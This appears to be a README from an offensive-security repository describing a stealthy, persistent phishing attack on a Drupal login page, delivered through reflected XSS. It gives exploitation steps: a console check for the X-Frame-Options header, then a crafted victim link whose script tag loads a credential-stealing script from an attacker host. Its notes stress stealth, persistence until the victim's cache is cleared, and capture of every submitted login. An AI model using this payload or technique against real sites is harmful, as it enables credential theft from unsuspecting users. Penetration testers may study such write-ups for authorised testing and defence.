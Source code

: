 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [check if target login page iframe-able] navigate to target application in web browser

http://192.168.5.17

2. [check if target login page iframe-able] open developer console and execute following code

```
const url = "http://192.168.5.17/user/login";
const req = new XMLHttpRequest();
req.open("GET", url, false);
req.send(null);
console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
```

* **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. victim user clicks link

```
http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.13/phishLoginDrupal.js></script>
```

4. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

![Image](screenshots/Drupal_-_iframe_login_-_1-1.png)
